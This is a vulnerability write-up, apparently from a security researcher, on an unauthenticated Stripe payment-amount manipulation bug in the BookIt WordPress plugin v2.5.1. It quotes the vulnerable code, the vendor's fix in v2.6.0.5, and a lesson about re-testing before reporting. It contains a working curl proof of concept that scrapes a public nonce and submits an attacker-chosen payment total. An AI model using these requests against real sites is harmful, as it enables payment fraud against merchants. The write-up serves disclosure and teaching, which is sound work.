

# BookIt (WordPress plugin) v2.5.1 — Unauthenticated Stripe Payment Amount Manipulation

| | |
|---|---|
| **Target** | BookIt WordPress plugin, tested at v2.5.1 |
| **Vulnerability class** | CWE-20 / CWE-840 (Improper Input Validation — attacker-controlled payment amount) |
| **Access required** | None — unauthenticated |
| **Status** | **Already fixed upstream.** The vendor shipped a fix in v2.6.0.5 before this finding was reported. No CVE — the bug was real, but dead by the time of disclosure. |

> Responsible disclosure notice: tested in an isolated local Docker environment only, never against
> a live site. Before reporting anything, I always re-check the vulnerability against the latest
> release — that check is what caught this one already being fixed.

## Summary

BookIt exposes a fully unauthenticated AJAX action,
`wp_ajax_nopriv_bookit_stripeConnect_intent_payment`, that creates a Stripe PaymentIntent using an
amount taken **directly from the client-supplied `$_POST['total']`**, with no server-side
recalculation against the real service price:

```php
// src/Bookit/Gateways/StripeConnect/Merchant.php  (v2.5.1)
public function intent_payment() {
    check_ajax_referer( 'bookit_book_appointment', 'nonce' );

    $amount = $this->get_amount( $_POST['total'], $currency ); // <-- trusts client input
    $args = [ 'amount' => $amount, 'currency' => $currency, ... ];
    wp_remote_post( $stripe_url, [ 'body' => $args ] );         // Stripe PaymentIntent created
}
```

The `nonce` required by `check_ajax_referer` isn't a real barrier here either — it comes from
`Nonces::get_frontend_nonces()`, which is handed to *every* anonymous visitor of the public booking
page automatically. It's CSRF protection, not authentication.

## Proof of Concept

Environment: WordPress (Docker, `wordpress:latest`), BookIt v2.5.1, no Stripe account configured
(deliberately — this test only needed to prove the request reaches Stripe unmodified).

```bash
# 1. Grab a nonce anonymously from the public booking page
$ curl -s "http://localhost:8099/bookit-poc/" | grep -o 'bookit_book_appointment":"[a-f0-9]*'
bookit_book_appointment":"2a5b2f9cd2

# 2. Anonymous request with an attacker-chosen amount (real price: $150)
$ curl -s "http://localhost:8099/wp-admin/admin-ajax.php" \
  -d "action=bookit_stripeConnect_intent_payment&nonce=2a5b2f9cd2&total=0.50&payment_method_id=pm_card_visa"

{"success":false,"data":{"message":"You did not provide an API key..."}}
```

The request was **anonymous**, passed nonce validation, and carried the attacker's `total=0.50` all
the way through to the Stripe API call. The only thing that stopped it here was the absence of a
live Stripe key in this throwaway test environment — on a real, configured store this would create
a genuine $0.50 PaymentIntent for a $150 booking.



## What I found when I re-checked before reporting

Before submitting anywhere, I always pull the latest release and re-verify. BookIt's current
version is 2.6.0.5, and the vulnerable function had already been rewritten:

```php
// src/Bookit/Gateways/StripeConnect/Merchant.php  (v2.6.0.5)
$service_price = Staff_Services::get_service_price_by_staff( $service_id, $staff_id ); // server-side lookup
$service_amount = $this->get_amount( $service_price, $currency );
// $_POST['total'] is no longer used to build the charge amount
```

The price is now recomputed server-side from the actual staff/service record — exactly the right
fix, and it was already live. No report was filed; the finding was archived instead, since
submitting a bug that no longer exists wastes the vendor's time and risks a submission-quality
strike on bounty platforms that penalize reports against non-latest versions.

## Suggested fix (for reference — already applied by the vendor)

Never trust a client-supplied amount for a payment-creation call. Recompute the price server-side
from the appointment/service ID before sending anything to the payment gateway — which is exactly
what v2.6.0.5 now does.

## Lesson

The habit that mattered most here wasn't the discovery — it was the **re-verification step**.
Always re-test against the current release right before reporting, not just at the start of your
research. A bug you found last week might already be dead by the time you write it up.
